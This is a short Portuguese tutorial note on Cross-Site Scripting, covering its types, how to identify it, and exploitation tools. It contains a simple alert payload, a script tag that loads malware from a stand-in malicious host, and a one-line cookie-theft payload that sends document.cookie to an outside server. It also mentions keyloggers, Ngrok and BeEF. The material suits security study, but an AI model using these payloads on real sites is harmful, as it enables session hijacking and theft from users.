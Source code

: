 
# Cross-Site Scripting (XSS)

### O que é XSS?

Cross-Site Scripting (XSS) é uma vulnerabilidade que permite a injeção de código JavaScript malicioso em páginas da web, explorando falhas na sanitização de entradas. Isso pode levar ao roubo de cookies, execução de keyloggers e controle da sessão do usuário.

---

### Tipos de XSS

- `Reflected XSS` → O script malicioso é enviado na URL e refletido na resposta da página.
    ~~~html
    <script>alert('XSS')</script>
    ~~~

- `Stored XSS` → O script é salvo no banco de dados e executado sempre que a página carrega.

- `DOM-based XSS` → A execução ocorre no navegador, manipulando o DOM sem passar pelo servidor.

---

###  Identificação de XSS

- Testar se a aplicação aceita códigos JavaScript via parâmetros na URL ou em campos de entrada.

- Verificar se a aplicação permite scripts externos, como:
    ~~~html
    <script src="http://site-malicioso.com/malware.js"></script>
    ~~~

- Analisar headers da página, verificando proteções como:

  - `Content-Security-Policy (CSP)`

  - `X-XSS-Protection`

---

Ferramentas para Exploração

- **Ngrok** → Criação de servidor para capturar dados da vítima.

- **Keyloggers** → Captura de digitação via JavaScript.

- **Roubo de sessão** → Capturar cookies e fazer login na conta da vítima:
    ~~~js
    document.location="http://servidor.com?cookie="+document.cookie;
    ~~~

- **Ferramentas de XSS** → BeEF, XSStrike, XSS Hunter.

---